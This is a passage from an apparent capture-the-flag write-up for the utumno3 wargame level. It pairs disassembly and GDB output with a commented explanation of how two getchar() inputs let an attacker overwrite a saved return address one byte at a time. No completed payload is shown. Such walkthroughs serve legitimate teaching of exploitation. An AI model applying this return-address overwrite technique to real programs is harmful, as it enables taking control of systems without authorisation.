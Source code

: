 ```nasm
0x08048469 <+126>:	pop    ebx
0x0804846a <+127>:	pop    ebp
0x0804846b <+128>:	ret
```

If you take a look at the code we have two call to *getchar()* (`main+85` and `main+98`). The first call will be used to specify **where** you want to write (the offset) and the second will be **what** you want to write (the return address). We'll have to do that one byte at a time. Based on that assumption, our payload to overwrite the return address will be 8 bytes long (4 locations + 4 bytes to write). 

The important part is at `main+90` where you can see `mov BYTE PTR [ebp+ebx*1-0x24], al`. This line will compute the address where your return address will be overwrote. First, let's get **EBP** and the location of the return address.

```nasm
$ gdb -q ./utumno3
Reading symbols from ./utumno3...done.
(gdb) set disassembly-flavor intel
(gdb) break main
Breakpoint 1 at 0x80483f2: file utumno3.c, line 26.
(gdb) run
Starting program: /utumno/utumno3

Breakpoint 1, main (argc=1, argv=0xffffd724) at utumno3.c:26
26	utumno3.c: No such file or directory.
(gdb) x/8x $ebp
0xffffd688:	0x00000000	0xf7e2a286	0x00000001	0xffffd724
0xffffd698:	0xffffd72c	0x00000000	0x00000000	0x00000000
(gdb)
```

Here, **EBP**, the base stack pointer is `0xffffd688` and the return address is `0xf7e2a286`. So if we want to overwrite the last byte of the address (**0x86**), we need to write at `0xffffd68c`. You can check that in **GDB** :

```nasm
(gdb) x/bx 0xffffd68c
0xffffd68c:	0x86
```

So now, it gets a bit more complex. I'll comment the code, but only for the first iteration of the loop.

```nasm
0x08048401 <+22>:	mov    eax,DWORD PTR [ebp-0xc] ; EAX = first char.
0x08048404 <+25>:	mov    ecx,eax ; ECX = first char.
0x08048406 <+27>:	lea    edx,[ebp-0x3c] ; load a ptr to a stack location
0x08048409 <+30>:	mov    eax,DWORD PTR [ebp-0x8] ; EAX = 0 (first loop iteration)
0x0804840c <+33>:	add    eax,edx ; ptr + 0
0x0804840e <+35>:	mov    BYTE PTR [eax],cl ; move the first char. to the stack
0x08048410 <+37>:	lea    edx,[ebp-0x3c] ; restore the ptr original value
0x08048413 <+40>:	mov    eax,DWORD PTR [ebp-0x8] ; EAX = 0
0x08048416 <+43>:	add    eax,edx ; ptr + 0
0x08048418 <+45>:	movzx  ecx,BYTE PTR [eax] ; move the first char in ECX
0x0804841b <+48>:	mov    eax,DWORD PTR [ebp-0x8] ; EAX = 0
0x0804841e <+51>:	mov    edx,eax ; EDX = 0
0x08048420 <+53>:	mov    eax,edx ; EAX = 0
0x08048422 <+55>:	add    eax,eax ; EAX = 0
0x08048424 <+57>:	add    eax,edx ; EAX = 0
0x08048426 <+59>:	xor    ecx,eax ; ECX = 0
0x08048428 <+61>:	lea    edx,[ebp-0x3c] ; restore the ptr original value
0x0804842b <+64>:	mov    eax,DWORD PTR [ebp-0x8] ; EAX = 0
0x0804842e <+67>:	add    eax,edx ; EAX = ptr + 0
0x08048430 <+69>:	mov    BYTE PTR [eax],cl ; move the first char in ECX
0x08048432 <+71>:	lea    edx,[ebp-0x3c] ; restore the ptr original value
0x08048435 <+74>:	mov    eax,DWORD PTR [ebp-0x8] ; EAX = 0
```